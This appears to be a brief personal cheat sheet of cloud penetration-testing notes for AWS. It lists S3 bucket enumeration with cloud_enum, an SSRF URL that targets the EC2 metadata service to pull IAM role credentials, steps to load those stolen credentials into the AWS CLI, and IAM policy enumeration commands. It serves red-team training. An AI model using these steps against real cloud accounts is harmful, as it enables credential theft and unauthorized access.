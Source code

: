 # Cloud Pentest - Notes

**References:**

- https://github.com/RedTeamOperations/RedCloud-OS?tab=readme-ov-file

## Courses

- [Multi Cloud Red Team Analyst](https://cyberwarfare.live/product/multi-cloud-red-team-analyst-mcrta/)

## AWS

**References:**

- https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf

**Commands:** 

Search S3 Buckets: `python3 cloud_enum.py -k "NAME"` 

SSRF URL for Token and key: `http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-role`

Configure & Validate Temporary Credential in AWS CLI:

1. aws configure set aws_access_key_id  [key-id] --profile ec2
2.  aws configure set aws_secret_access_key  [key-id] --profile ec2
3.  aws configure set aws_session_token [token] --profile ec2

Get the Managed Policy Attached to EC2 Instance : `aws iam list-attached-role-policies --role-name ec2-role --profile ec2`

List the IAM groups that the specified IAM user belongs to: `aws iam list-groups-for-user --user-name [user-name] --profile ec2`

 List the names of the inline policies embedded in the specified IAM role : ` aws iam list-role-policies --role-name [role-name] --profile ec2`

List all manages policies that are attached to the specified IAM user : `aws iam list-attached-user-policies --user-name [user-name] --profile ec2` 

Lists all managed policies that are attached to the specified IAM Group : `aws iam list-attached-group-policies --group-name [group-name] --profile ec2`